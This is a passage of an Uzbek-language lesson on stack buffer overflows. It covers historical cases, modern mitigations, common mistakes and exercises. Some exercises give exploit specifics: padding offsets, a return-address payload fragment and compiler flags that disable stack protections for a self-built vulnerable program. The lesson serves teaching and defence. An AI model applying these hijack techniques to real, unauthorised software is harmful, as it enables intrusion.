Yana bir chalkashlikni ajratamiz: **goroutine stack overflow** — bu **boshqa narsa**. 09-darsda ko'rgandek, goroutine kichik stack bilan boshlanadi va kerak bo'lganda o'sadi. Agar cheksiz rekursiya bo'lsa, Go `fatal error: stack overflow` beradi — bu **nazoratli** to'xtash, hujumchi boshqarolmaydigan resurs tugashi, xotira **buzilishi** (exploit) emas.

## Real-world scenariylar

### 1. Morris Worm (1988) — birinchi Internet qurti

Bu darsdagi `fingerd` misoli aynan tarixiy. 1988-yil Robert Morris yaratgan qurt Internet'dagi minglab mashinalarni falaj qildi. To'rt usuldan biri — `fingerd` daemon'idagi **buffer overflow**: `finger` so'roviga maxsus uzun string yuborib, return address'ni o'z kodiga yo'naltirdi (aynan 5-misoldagi mexanizm). Qurt keyin o'zini ko'paytirib, mashina resurslarini yeb tugatdi. Muallif sudlangan. **Qanday himoya to'xtatgan bo'lardi:** NX (stack'da shellcode bajarilmasdi) + ASLR (address bashorat qilinmasdi) + canary (return address buzilishi aniqlanardi).

### 2. Heartbleed (2014) — OpenSSL over-read

Heartbleed — bu **write** overflow emas, **read** over-read (biroz boshqa, lekin qardosh muammo). OpenSSL'ning Heartbeat funksiyasi so'rovda ko'rsatilgan uzunlikni **tekshirmasdan** o'qidi, natijada bufer chegarasidan tashqaridagi xotirani (parollar, kalitlar) qaytarib yubordi. Ildiz sabab bir xil: **uzunlik tekshirilmadi** (aynan gets'ning kasalligi, faqat o'qishda). **Qanday himoya to'xtatgan bo'lardi:** memory-safe til (Go/Rust) — slice o'qishda bounds check over-read'ni to'xtatardi; yoki AddressSanitizer (ASAN) test paytida bu over-read'ni aniqlardi.

### 3. Zamonaviy CTF va pentesting

Bugungi kunda buffer overflow exploit CTF (Capture The Flag) musobaqalarining va qonuniy pentesting'ning asosiy mavzusi. Zamonaviy binary'larda himoyalar yoqilgani uchun (7-misoldagi jadval) hujumlar murakkablashdi: canary'ni **info leak** bilan o'g'irlash, ASLR'ni **brute-force** yoki leak bilan chetlab o'tish, NX'ni **ROP** bilan aylanib o'tish. Bularning barchasi — shu darsdagi asosiy exploit ustiga qurilgan navbatdagi qatlam. C/C++ hali ham tarmoq infratuzilmasi, firmware va sistem dasturlarida hukmron, shuning uchun bu bilim eskirmaydi.

Bu tarixiy mavzu emas: 2024-2025-yillarda ham buffer overflow yuqori jiddiylikdagi CVE'larda chiqishda davom etmoqda (masalan `CVE-2024-49138` Windows kernel'da, `CVE-2025-32756` tarmoq qurilmasi firmware'ida). Naqsh o'zgarmaydi — chegarasiz nusxalash + nazoratsiz uzunlik — faqat kontekst yangilanadi. Aynan shuning uchun bu darsdagi mexanizmni tushunish 40 yildan beri dolzarb.

## Zamonaviy yondashuv

Web sintezi (2024-2026): bugun **canary + ASLR + NX + PIE** kombinatsiyasi har bir zamonaviy Linux binary'da **default** yoqilgan. Shuning uchun klassik "stack'ga shellcode tashlab, return address'ni unga yo'naltirish" hujumi deyarli ishlamaydi. Lekin hujum ham to'xtab qolgani yo'q — u **evolyutsiya** qildi:

- **ROP (Return-Oriented Programming)** — NX'ni chetlab o'tadi. Yangi kod tashlash o'rniga, hujumchi dasturda **allaqachon mavjud** kod bo'laklarini ("gadget"lar, har biri `ret` bilan tugaydi) return address'lar zanjiri orqali bog'laydi. Biz 4-misolda `secret()`ga sakraganimiz — ROP'ning eng sodda ko'rinishi (return-to-function).
- **Info leak + ASLR bypass** — bitta pointer sizib chiqsa (masalan format string bug orqali), ASLR **butunlay** yiqiladi: bir manzil ma'lum bo'lsa, qolganini hisoblab olsa bo'ladi.
- **CFI (Control-Flow Integrity)** — indirect chaqiruv/qaytish faqat **ruxsat etilgan** manzillarga borishini tekshiradi.
- **Intel CET** — apparat darajasidagi himoya. `endbr64` (biz har funksiya boshida 06-10-darslarda ko'rgan instruksiya!) aynan CET'ning **forward-edge** qismi: indirect sakrash faqat `endbr64` bilan boshlangan joyga tusha oladi. **Shadow stack** esa return address'ning ikkinchi, himoyalangan nusxasini saqlaydi — ROP hujumchisi ikkala nusxani ham buzishi kerak bo'ladi, bu esa amaliyotda juda qiyin.
- **Memory-safe tillar** — eng radikal yechim. Microsoft (2019) va Google Chrome (2020) statistikasi: xavfsizlik xatolarining **~70%** memory safety muammosi. Android'da 2019-2022 orasida memory-safe tillarga (Rust) o'tish bilan bu ko'rsatkich **76%dan 35%ga** tushdi. Go va Rust bu butun sinf hujumlarni til darajasida yo'q qiladi.
- **Fuzzing va sanitizerlar** — AddressSanitizer (ASAN), fuzzing (masalan Go'ning built-in `go test -fuzz`) test paytidayoq out-of-bounds murojaatlarni topadi.

Xulosa: himoya ko'p qatlamli (defense-in-depth). Hech bir qatlam mukammal emas, lekin birgalikda ular hujumni juda qimmatga tushiradi. Eng ishonchli yo'l esa — muammoni **ildizidan** yo'q qiluvchi memory-safe til.

## Keng tarqalgan xatolar

**1. "Canary bor, men xavfsizman."** Canary faqat **stack smashing'ni** aniqlaydi. ROP (canary'ni buzmasdan), info leak (canary qiymatini o'g'irlash) yoki heap overflow uni chetlab o'tadi. Canary — bir qatlam, yagona himoya emas.

**2. `strcpy`/`strcat`/`sprintf`/`gets` ishlatish.** Bularning barchasi maqsad buferining o'lchamini so'ramaydi — aynan `gets`ning kasalligi. O'rniga chegarali variantlarni ishlat: `strncpy`, `strncat`, `snprintf`, `fgets`. `gets` esa umuman ishlatilmasin — u standartdan olib tashlangan.

**3. "Bu kichik buffer, kim uni overflow qiladi."** Aynan **kichik** buferlar xavfli — 16 baytlik `buf`ni to'ldirish uchun atigi 24 bayt input yetadi. O'lcham xavfsizlik belgisi emas; **har qanday** chegarasiz nusxalash zaif.

**4. Go'da `unsafe`/cgo bilan himoya yo'qolishini unutish.** Go memory-safe, lekin `unsafe.Pointer` arifmetikasi va cgo orqali chaqirilgan C kodi shu darsdagi barcha zaifliklarga qaytadi. `unsafe` ishlatgan har bir joyni C kabi jiddiy audit qil.

**5. Off-by-one — "bitta bayt nima qiladi?"** Bitta ortiqcha bayt ham falokat: u canary'ning bir baytini, yoki saved pointer'ning eng past baytini buzishi mumkin (`buf[len]` ga `\0` yozish klassik off-by-one). Bitta bayt ham exploit uchun yetarli bo'lishi mumkin.

## Amaliy mashqlar

**1. (Oson — hisob) Offset'ni frame'dan chiqar.** 3-misoldagi echo frame'ida `buf[16]` va saved `%rbx` bor. Return address'ni buzish uchun necha bayt padding kerak?

<details>
<summary>💡 Yechim</summary>

`buf[16]` (16 bayt) + saved `%rbx` (8 bayt) = **24 bayt** padding. 24-baytdan keyingi 8 bayt aynan return address. Shuning uchun exploit payload 24 bayt `'A'` + 8 baytli address (4-misoldagi kabi).
</details>

**2. (Oson — Modify) Boshqa payload uzunligi.** Agar 4-misoldagi payload'ni `"A"x20 . pack("Q<",0x4011b6)` ga o'zgartirsak (24 emas, 20 bayt padding), address qayerga tushadi va nima bo'ladi?

<details>
<summary>💡 Yechim</summary>

20 bayt padding return address slot'iga **yetmaydi** — address saved `%rbx`ning yuqori qismiga va return address'ning past qismiga aralashib tushadi (noto'g'ri joylashadi). `ret` yaroqsiz (aralash) manzilga sakrab **crash** bo'ladi (SIGSEGV, exit 139), `secret()` chaqirilmaydi. Offset **aynan** to'g'ri bo'lishi shart.
</details>

**3. (O'rta — GDB o'qish) `x/gx` chiqishini talqin qil.** 5-misolda GDB `0x2aaaab2abc88: 0x00000000004019a5` chiqardi va `info symbol` "secret in section .text" dedi. Bu ikki qator birga nimani isbotlaydi?

<details>
<summary>💡 Yechim</summary>

`0x2aaaab2abc88` — `%rsp` (return address slot'i). Undagi qiymat `0x4019a5`. `info symbol` bu address'ning aynan **secret() funksiyasi** ekanini tasdiqlaydi. Demak `ret` bajarilganda dastur `secret()`ga sakraydi — return address bizning payload orqali muvaffaqiyatli o'g'irlangan. Bu — buffer overflow hijack'ining to'g'ridan-to'g'ri isboti.
</details>

**4. (O'rta — sabab) Nega canary exploit'ni to'xtatdi?** 6-misolda bir xil payload `vuln_canary`da `stack smashing detected` berdi. Canary bu jarayonda **qayerda** turadi va **qachon** tekshiriladi?

<details>
<summary>💡 Yechim</summary>

Canary buf va saved holat (rbx, return address) **orasida** turadi. 24 bayt `'A'` buf'dan oshib **avval canary'ni** buzadi. `echo` qaytishdan oldin (epilogda) canary'ni original `%fs:40` bilan solishtiradi (`subq %fs:40`); mos kelmaydi -> `__stack_chk_fail` -> `abort()` (SIGABRT, exit 134). Return address'ga yetishdan **oldin** buzilish aniqlanadi, shuning uchun hijack sodir bo'lmaydi.
</details>

**5. (O'rta — moslashtir) Qaysi himoya qaysi hujumni to'xtatadi.** Quyidagi himoya-hujum juftlarini moslashtir: (a) NX, (b) ASLR, (c) Canary, (d) PIE. Hujumlar: (1) stack'ga tashlangan shellcode'ni bajarish, (2) return address ustidan yozib crash, (3) qat'iy funksiya address'iga sakrash, (4) kutubxona/stack manzilini oldindan bilish.

<details>
<summary>💡 Yechim</summary>

(a) NX -> (1) stack shellcode bajarilishini bloklaydi. (c) Canary -> (2) return address ustidan yozishni aniqlaydi. (d) PIE -> (3) dastur kodi/funksiya address'larini randomlashtiradi, qat'iy address'ni buzadi. (b) ASLR -> (4) stack/kutubxona manzilini har safar o'zgartirib, bashoratni buzadi. Har biri boshqa qatlamni yopadi — birga ular defense-in-depth.
</details>

**6. (O'rta — Go) Bounds check'ni ko'r.** Go'da `func f(buf []byte, i int) byte { return buf[i] }` yozib, `i` uzunlikdan katta bo'lsa nima bo'ladi? C'dagi `char buf[16]; return buf[i];` bilan farqi nima?

<details>
<summary>💡 Yechim</summary>

Go'da runtime `i < len(buf)` ni tekshiradi (08-darsdagi `CMPQ; JCC panic`); `i >= len(buf)` bo'lsa `panic: runtime error: index out of range` — **xotira buzilmaydi**, nazoratli to'xtash. C'da esa tekshiruv **yo'q**: `buf[i]` = `base + i` ga jimgina murojaat qiladi, chegaradan tashqi xotirani o'qiydi/yozadi — aynan buffer overflow manbai.
</details>

**7. (Qiyin — Make) O'z zaif dasturingni yasab, himoyani sinovdan o'tkaz.** `vuln.c` uslubida `char buf[32]` va `win()` funksiyali dastur yoz. (a) Yangi offset'ni objdump bilan hisobla, (b) himoyasiz kompilyatsiya qilib exploit yoz, (c) canary bilan qayta kompilyatsiya qilib exploit'ning to'xtaganini ko'r. **Faqat o'z konteyneringda.**

<details>
<summary>💡 Hint</summary>

Layout: `buf[32]` bo'lsa, `objdump -d`da `sub $0x20,%rsp` (32 bayt) + `push %rbx` (8 bayt) ko'rasan -> offset = 32 + 8 = **40 bayt** (agar frame shu tuzilishda bo'lsa; har doim objdump bilan tekshir, taxmin qilma). Payload = 40 bayt `'A'` + `win` address (`pack("Q<", ...)`). Himoyasiz: `gcc -Og -fno-stack-protector -no-pie -g`. Canary bilan: `-fno-stack-protector`ni olib tashla -> `stack smashing detected` (exit 134). ETIK: bu faqat o'z muhitingda, o'z dasturingga qarshi.
</details>

## Cheat sheet

| GDB buyruq / Tushuncha | Nima | Eslab qolish |
| ---------------------- | ---- | ------------ |
| `break f` / `break *addr` | breakpoint qo'yish | funksiya yoki address |
| `run` / `continue` | ishga tushirish / davom | `r` / `c` |
| `stepi` / `nexti` | 1 instruksiya / call ichiga kirmay | qadamlash |
| `disassemble f` | funksiyani ko'rish | statik tahlil |
| `x/gx addr` | 8 baytni hex | return address slot'ini o'qish |
| `x/i addr` | instruksiyani disassemble | `ret`ni ko'rish |
| `x/32bx addr` | 32 baytni hex | buf baytlarini ko'rish |
| `info registers` | barcha registerlar | `%rsp`, `%rip` ... |
| `info symbol addr` | address -> simvol nomi | "secret in .text" |
| `backtrace` (`bt`) | chaqiruvlar zanjiri | return address'lar (09-dars) |
| Overflow offset | buf + saved registerlar | 3-misolda 24 bayt |
| `gets` / `strcpy` | chegarasiz nusxalash | XAVFLI — ishlatma |
| Stack canary | `%fs:40`, buzilsa `__stack_chk_fail` | return addr'ni himoyalaydi |
| ASLR | address'larni randomlashtirish | manzil bashorat qilinmaydi |
| NX / DEP | stack'da kod bajarilmaydi | shellcode'ni bloklaydi |
| PIE | dastur kodi ham random | qat'iy address'ni buzadi |
| exit 139 | 128 + 11 = SIGSEGV | nazoratsiz crash |
| exit 134 | 128 + 6 = SIGABRT | canary controlled abort |
| Control-flow hijack | input -> return address -> boshqaruv | data kodga aylandi |

## Qo'shimcha manbalar

Barcha manbalar mudofaa va ta'lim yo'nalishida — hujum mexanizmini himoya qurish uchun o'rganamiz:

- [Smashing the Stack for Fun and Profit — Aleph One (Phrack 49)](http://phrack.org/issues/49/14.html) — 1996-yilgi klassik maqola, buffer overflow exploit'ini birinchi bo'lib batafsil tushuntirgan. Bu sohaning "asos hujjati".
- [What is memory safety and why does it matter? — Prossimo (ISRG)](https://www.memorysafety.org/docs/memory-safety/) — memory safety nima, nega ~70% CVE shundan kelib chiqadi va Go/Rust qanday hal qiladi.
- [What is a buffer overflow? Modern attacks and cloud security — Wiz](https://www.wiz.io/academy/application-security/buffer-overflow) — zamonaviy mitigatsiyalar (canary, ASLR, NX, CFI) va ular qanday chetlab o'tilishi haqida amaliy sharh.
- [Stack Overflow Protection and Bypass Techniques — ROP, ASLR, Canaries — Medium](https://medium.com/@wam0x0x0/stack-overflow-protection-and-bypass-techniques-rop-aslr-canaries-and-more-f5d992c3ab79) — har bir himoya qatlami va uni chetlab o'tish usuli (ROP, info leak) bosqichma-bosqich, keyingi qadam sifatida.
